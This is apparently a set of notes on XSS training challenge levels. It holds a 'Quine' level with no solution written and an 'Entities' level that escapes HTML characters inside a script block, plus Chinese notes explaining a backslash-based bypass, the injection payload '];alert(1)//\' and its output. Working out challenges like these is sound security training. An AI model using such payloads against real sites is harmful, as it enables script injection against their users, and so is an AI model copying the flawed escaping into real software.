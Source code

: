 TODO



## Quine

```javascript
// submitted by Somebody
function escape(s) {
    // We've got a quine level in all of the other
    // games, so why not have one here?
    var win = alert;
    window.alert = function(t) {
        if (t === s)
            win(1);
        else
            console.log("Alert: " + t + "\n(That's not a quine)");
    }
    return s;
}
```

TODO



##Entities

```javascript
// submitted by securityMB
function escape(s) {
  function htmlentities(s) {
    return s.replace(/[&<>"']/g, c => `&#${c.charCodeAt(0)};`)
  }
  s = htmlentities(s);
  return `<script>
  var obj = {};
  obj["${s}"] = "${s}";
</script>`;
}
```

转义了`& < > " '`

方括号拼接，转义引号，和前面的引号拼接，最后一个引号注释掉

Payload

```
];alert(1)//\
```

Output

```
<script>
  var obj = {};
  obj["];alert(1)//\"] = "];alert(1)//\";
</script>
```
